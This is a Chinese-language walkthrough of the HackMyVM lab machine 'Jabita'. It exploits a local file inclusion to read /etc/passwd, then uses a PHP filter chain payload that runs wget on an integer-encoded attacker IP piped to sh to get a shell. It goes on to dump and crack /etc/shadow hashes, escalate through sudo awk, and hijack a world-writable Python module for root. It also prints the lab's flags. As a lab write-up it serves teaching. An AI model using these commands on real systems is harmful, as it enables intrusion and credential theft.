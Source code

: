 # Jabita

2025.03.17 https://hackmyvm.eu/machines/machine.php?vm=Jabita

[video]()

## Ip

192.168.5.40

## Scan

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

web 扫描发现 http://192.168.5.40/building/ , 点击顶部导航页面，发现 LFI http://192.168.5.40/building/index.php?page=home.php 可读取/etc/passwd 文件 http://192.168.5.40/building/index.php?page=/etc/passwd

使用 php_filter_chain ，将生成的 php filter 拼接到 page 参数后面直接拿到 shell:

```
python3 ~/tools/py-tools/php_filter_chain_generator.py --chain '<?=`wget -q -O- 3232236803/8|sh`?>'
```

进入系统后，发现/etc/shadow 可读：

```
www-data@jabita:/opt$ cat /etc/shadow
root:$y$j9T$avXO7BCR5/iCNmeaGmMSZ0$gD9m7w9/zzi1iC9XoaomnTHTp0vde7smQL1eYJ1V3u1:19240:0:99999:7:::
jack:$6$xyz$FU1GrBztUeX8krU/94RECrFbyaXNqU8VMUh3YThGCAGhlPqYCQryXBln3q2J2vggsYcTrvuDPTGsPJEpn/7U.0:19236:0:99999:7:::
jaba:$y$j9T$pWlo6WbJDbnYz6qZlM87d.$CGQnSEL8aHLlBY/4Il6jFieCPzj7wk54P8K4j/xhi/1:19240:0:99999:7:::
```

john 进行破解。找到 jack 用户的密码 joaninha 切换到该用户。

sudo 发现 (jaba : jaba) NOPASSWD: /usr/bin/awk 可提权到 jaba：

```
sudo -u jaba awk 'BEGIN {system("/bin/bash")}'
```

先拿到 user flag：

```
jaba@jabita:~$ cat user.txt
2e0942f09699435811c1be613cbc7a39
```

sudo -l 显示 (root) NOPASSWD: /usr/bin/python3 /usr/bin/clean.py , 查看 py 脚本的内容：

```
jaba@jabita:/usr/bin$ cat /usr/bin/clean.py
import wild

wild.first()
```

查看一下 wild 这个库的内容以及文件权限：

```
jaba@jabita:/usr/bin$ cat /usr/lib/python3.10/wild.py
def first():
	print("Hello")

jaba@jabita:/usr/bin$ ls -al /usr/lib/python3.10/wild.py
-rw-r--rw- 1 root root 29 Sep  5  2022 /usr/lib/python3.10/wild.py
```

发现是一个用户自定义的脚本，并且对其他用户有 w 写权限，直接修改它的内容：

```
echo 'import os; os.system("/bin/bash")' > /usr/lib/python3.10/wild.py
```

再次执行 sudo，拿到最终 flag：

```
jaba@jabita:/usr/bin$ sudo /usr/bin/python3 /usr/bin/clean.py
root@jabita:/usr/bin# cd /root
root@jabita:~# cat root.txt
f4bb4cce1d4ed06fc77ad84ccf70d3fe
```
